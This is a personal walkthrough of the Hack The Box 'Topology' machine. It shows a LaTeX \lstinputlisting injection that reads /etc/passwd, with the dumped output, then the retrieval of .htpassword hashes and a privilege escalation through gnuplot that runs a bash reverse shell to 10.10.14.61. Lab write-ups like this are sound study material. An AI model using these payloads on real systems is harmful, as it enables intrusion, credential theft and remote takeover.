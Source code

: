 --- tag: hackthebox-easy, linux ---

![[Pasted image 20230614090600.png]]

on running rustscan we can see that the port 22 and 80 are open, a web page is hosted on port 80 
![[Pasted image 20230614091028.png]]

Since the webpage is hosted in http://latex.topology.htb/equation.php  the route / http://latex.topology.htb/ should be protected which is not done here
so we are able to view all the files in the root directory

![[Pasted image 20230614091612.png]]

since the site is made with PHP which implements latex , we can see a header.tex

```
% vdaisley's default latex header for beautiful documents
\usepackage[utf8]{inputenc} % set input encoding
\usepackage{graphicx} % for graphic files
\usepackage{eurosym} % euro currency symbol
\usepackage{times} % set nice font, tex default font is not my style
\usepackage{listings} % include source code files or print inline code
\usepackage{hyperref} % for clickable links in pdfs
\usepackage{mathtools,amssymb,amsthm} % more default math packages
\usepackage{mathptmx} % math mode with times font
```


we tried various ways but we are not able to read the whole content of /etc/passwd file 

since the listing module is imported we can simply use the following code to read /etc/passwd

````latex
$\lstinputlisting[caption=/etc/passwd, label=lst:passwd]{/etc/passwd}$
````

so we get the list of usernames
```
Listing 1: /etc/passwd
root:x:0:0:root:/root:/ bin/bash
daemon:x:1:1:daemon:/usr/sbin :/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync :x:4:65534:sync:/bin:/bin/sync

games :Xx:5:60: games :/ usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

Ip:x:7:7:1p :/var/spool/lpd:/usr/sbin/nologin

mail :x:8:8: mail :/ var/ mail :/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy :x:13:13:proxy:/bin:/usr/sbin/nologin

www—data :x:33:33:www—data :/var/www:/usr/sbin/nologin

backup:x:34:34: backup :/var/backups:/usr/sbin/nologin

list :x:38:38: Mailing List Manager:/var/ list :/usr/sbin/nologin

irc:x:39:39:ircd :/var/run/ircd :/usr/sbin/nologin

gnats :x:41:41:Gnats Bug—Reporting System (admin ):/var/lib/gnats:/usr/sbin/nologin
nobody :x:65534:65534: nobody :/ nonexistent :/usr/sbin/nologin
systemd—network:x:100:102:systemd Network Management, , ,:/run/systemd:/usr/sbin/nologin
systemd—resolve :x:101:103:systemd Resolver ,,,:/run/systemd:/usr/sbin/nologin
systemd—timesync :x:102:104:systemd Time Synchronization ,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/ nonexistent :/usr/sbin/nologin
syslog:x:104:110::/home/syslog :/usr/sbin/nologin
_apt:x:105:65534::/ nonexistent :/usr/sbin/nologin
mysql:x:106:112:MySQL Server ,, ,:/ nonexistent :/bin/ false
tss:x:107:113: TPM software stack ,,,:/var/lib/tpm:/bin/ false
uuidd:x:108:115::/run/uuidd :/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate :x:112:1::/var/cache/ pollinate :/bin/ false
systemd—coredump :x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
vdaisley :x:1007:1007: Vajramani Daisley ,W2 1 —123,,:/home/vdaisley :/ bin/bash
rtkit:x:113:121:RealtimeKit,, ,:/proc:/usr/sbin/nologin
dnsmasq:x:114:65534:dnsmasq,, ,:/var/lib/misc:/usr/sbin/nologin
cups—pk—helper:x:115:119: user for cups—pk—helper service ,,,:/home/cups—pk—helper:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon, ,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:117:124: Avahi mDNS daemon, , ,:/var/run/avahi—daemon:/usr/sbin/nologin
geoclue:x:118:125::/var/lib/geoclue :/usr/sbin/nologin
saned:x:119:127::/var/1lib/saned:/usr/sbin/nologin

colord:x:120:128:colord colour management daemon, ,,:/var/lib/colord:/usr/sbin/nologin
pulse :x:121:129: PulseAudio daemon, ,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:122:131:Gnome Display Manager:/var/lib/gdm3:/bin/ false
fwupd—refresh:x:109:116:fwupd—refresh user ,,,:/run/systemd:/usr/sbin/nologin
_laurel :x:998:998::/var/log/laurel :/bin/ false
```



---
### Loot
000-default.conf

![[Pasted image 20230615082744.png]]

---
On visiting the dev.topology.htb  site which is an authenticated route so we require password 
since we have access to read local files on the system we are able to retrieve the password hashes from .htpassword in /var/www/dev/.htpassword

![[WhatsApp Image 2023-06-15 at 9.12.55 AM.jpeg]]

![[WhatsApp Image 2023-06-15 at 9.13.09 AM.jpeg]]

![[WhatsApp Image 2023-06-15 at 9.13.19 AM.jpeg]]

we got the password for vdaisley

on ssh into the machine and running pspy we can see there is a process executing all the plt files in the /opt/gnuplot directory

![[Pasted image 20230615194618.png]]

so we write a file with the following content in /dev/shm 

```exploit
sh -i >& /dev/tcp/10.10.14.61/443 0>&1
```


and we can execute system command in gnuplot using system command

```
system "bash /dev/shm/exploit"
```


we got root access
